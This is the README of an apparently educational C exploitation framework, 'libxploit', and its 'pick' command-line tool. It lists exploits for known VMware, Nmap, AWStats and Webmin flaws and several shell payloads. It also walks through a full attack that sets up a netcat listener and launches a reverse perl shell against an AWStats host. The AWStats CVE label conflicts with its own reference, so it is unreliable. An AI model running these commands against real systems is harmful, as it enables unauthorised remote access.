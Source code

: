 
## libxploit - exploitation framework as C API

### Introduction

Aim of this project is to design and implement exploitation framework (like Metasploit) written in C language and provided as C library.

Advantages of doing so:

 * adding bindings to other programming languages is possible 
 * exploitation functionality can be added to other programs
 * writing non-interactive programs with exploitation capability is possible
 * automation is possible  

Despite the potential practical usage of this library main purpose of creating it by it's author are educational reasons.

Together with the library, command line utility `pick` ('wytrych' in Polish) is provided. The utility exposes API's functionality for command line use:

```
Usage: ./pick [options] --exploit <exploit> --payload <payload> --exploit-opts <options> --payload-opts <options>

Options:
   -h/--help    : this help
   -v    : verbose mode
   -d    : debug mode
   --show-exploits    : show all available exploits
   --show-payloads    : show all available payloads
   --exploit-help <exploit>    : how doc for <exploit>
   --payload-help <payload>    : how doc for <payload>
   --exploit <exploit>    : use <exploit> as exploit
   --payload <payload>    : use <payload> as payload
   --exploit-opts <n1=v1,[n2=v2,...]>    : provide exploit options
   --payload-opts <n1=v1,[n2=v2,...]>    : provide payload options
```

By default `pick` comes statically compiled which makes it perfect for checking for local privileges escalation vulnerabilities when doing server security audits.

### Typical command line session

Show available exploits:

    $ ./pick --show-exploits

Choose exploit of interest from the output:

```
[ CVE-2013-1662 ] VMWare setuid vmware-mount unsafe popen(3)
Affected software: VMWare Workstation ver. <= 9.0.2 build-1031769
References:
http://blog.cmpxchg8b.com/2013/08/security-debianisms.html
http://www.vmware.com/support/support-resources/advisories/VMSA-2013-0010.html
Exploit name: vmware-mount

[ NO-CVE ] Setuid Nmap Exploit
Affected software: Nmap with suid privileges
References:
 -
Exploit name: setuid-nmap

[ CVE-2006-3392 ] AWStats configdir remote command execution
Affected software: Awstats ver. <= 6.2
References:
https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0116
http://www.securityfocus.com/bid/12298/info
Exploit name: exec-awstats

[ CVE-2006-3392 ] Webmin/Usermin File Disclosure
Affected software: Webmin ver. < 1.290, Usermin ver. < 1.220
References:
http://secunia.com/advisories/20892/
Exploit name: fdisc-webmin
```

Show details about chosen exploit:

    $ ./pick --exploit-help exec-awstats

Output:

```
[ CVE-2006-3392 ] AWStats configdir remote command execution
Affected software: Awstats ver. <= 6.2
References:
https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2005-0116
http://www.securityfocus.com/bid/12298/info
Type: remote

Exploit options:

Name   Default setting      Required
----   ---------------      --------
RHOST                       yes
RPORT  80                   yes
URI    /awstats/awstats.pl  yes
VHOST                       no
```

Show available payloads:

    $ ./pick --show-payloads

Choose from the output the one that provides desired effect:

```
null - empty payload
linux-x86-exec - executes provided linux command
cmd-bind-awk - listens for a connection & spawns shell via awk
cmd-generic - executes supplied command line
cmd-bind-nc - listens for a connection & spawns shell via netcat
cmd-bind-perl - listens for a connection & spawns shell via perl
cmd-reverse-perl - creates reverse shell via perl
```

See the details of chosen payload:

    $ ./pick --payload-help cmd-reverse-perl

Payload's details:

```
cmd-reverse-perl - creates reverse shell via perl

Payload options:

Name   Default setting  Required
----   ---------------  --------
LHOST                   yes
LPORT                   yes
```

For reverse shell payloads (`*-reverse-*`) connection handler has to be created before running the exploit. On local (192.168.1.1 in this example) machine run:

    $ nc -l -p 4444

On second terminal fire up exploit of choice with your settings: 

    $ ./pick --exploit exec-awstats --payload cmd-reverse-perl --exploit-opts RHOST=192.168.1.2,RPORT=80 --payload-opts LHOST=192.168.1.1,LPORT=4444

Get back to terminal with your connection handler and (if target machine is vulnerable) enjoy interactive remote shell session.

